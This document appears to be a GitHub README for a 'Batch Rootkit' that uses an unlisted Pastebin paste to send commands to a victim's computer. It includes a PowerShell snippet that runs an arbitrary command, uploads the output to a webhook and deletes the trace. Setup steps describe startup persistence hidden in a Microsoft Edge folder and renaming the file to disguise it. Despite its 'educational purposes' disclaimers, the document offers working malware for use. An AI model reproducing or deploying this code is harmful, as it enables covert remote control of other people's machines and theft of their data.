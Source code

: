 # Batch Rootkit

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**

> __Warning__ 
> **The distribution of this computer virus onto computers other than one's own is a criminal offense, and such action is strictly prohibited.**

> __Warning__ 
> **ITS EDUCATION PURPOSES ONLY**

## Contact
In case you require any assistance with my project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin to control computer powershell. Nowadays, the code can be easily removed, and the link to Pastebin and commands can be readily accessible.

## How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To use cmd commend use ```cmd /c```  to use powershell commend just use your commend without ```cmd /c```
6. Save your paste
7. Press raw button
8. Copy link
9. Paste this link into batch code
10. Change name of rootkit.bat to anything you want
11. Done
12. Now application will run on startup and will be stored in %localappdata%/Microsoft Edge

## Rules
**IMPORTANT: ITS ROOTKIT SOFTWARE**
This software is a rootkit intended solely for educational purposes. Using, distributing, or modifying this software in a manner that violates applicable laws is strictly prohibited.
Rootkit software is potentially harmful and infringes upon the privacy, security, and rights of computer users. Using this software to gain unauthorized access to systems, carry out attacks, steal data, or engage in any other illegal activities is unlawful and unethical.
The creators and contributors of this rootkit software do not endorse or support any illegal or malicious use of the software. The use of this software is entirely at your own risk, and you assume full responsibility for any consequences that may arise from its use.
By using or accessing this rootkit software, you agree to abide by all applicable laws and regulations. The creators and contributors of this software are not liable for any damages or legal repercussions resulting from the use or misuse of this software.
Please ensure that you use this software responsibly and ethically, respecting the privacy and security of others.
BY DOWNLOADING THIS MALWARE YOU ACCEPT ALL RULES

